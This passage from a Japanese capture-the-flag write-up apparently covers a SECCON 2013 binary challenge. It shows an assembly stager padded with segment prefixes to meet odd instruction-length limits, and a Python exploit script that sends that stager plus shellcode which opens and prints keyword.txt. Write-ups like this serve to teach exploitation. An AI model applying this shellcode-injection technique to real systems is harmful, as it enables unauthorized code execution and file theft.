 [オンライン予選のbin500と同じように]({{< ref "seccon-2013-online-quals-writeup.md#hack-this-site-bin500" >}})
プレフィックスを付けて命令長を調整した。

stdin 変数は 0x08049184にあるが、 push dword
[0x08049184]は6バイトになってしまう。esp+0x10にstdin変数の中身が残っているのでそれをpushする。

終了後に 最大5命令しか使えないわけではなく 命令の途中が5, 7, 5, 7,
7バイトに引っかかっていなければよいことに気づいた。

stage1:

    bits 32
    org 0x80491c0
     
    ;5
    db 0x2e
    push dword [esp+0x10] ;stdin
    ;7
    db 0x2e,0x2e
    push 2048
    ;5
    db 0x2e,0x2e,0x2e
    push 1
    ;7
    db 0x2e,0x2e
    push stage2
    ;7
    db 0x2e,0x2e
    call 0x08048780 ;fread
     
    stage2:

exploit:

    #!/usr/bin/python
    import pack
    import sys
     
    #stage1
    buf = "\x2e\xff\x74\x24\x10\x2e\x2e\x68\x00\x08\x00\x00\x2e\x2e\x2e\x6a\x01\x2e\x2e\x68\xdf\x91\x04\x08\x2e\x2e\xe8\xa1\xf5\xff\xff"
    sys.stdout.write(pack.pl32(len(buf)))
    sys.stdout.write(buf)
     
    #stage2
    #cat keyword.txt
    buf =  ""
    buf += "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89"
    buf += "\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10"
    buf += "\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01"
    buf += "\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00"
    buf += "\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x6b\x65\x79\x77"
    buf += "\x6f\x72\x64\x2e\x74\x78\x74\x00"
    sys.stdout.write(buf)

#### stage4
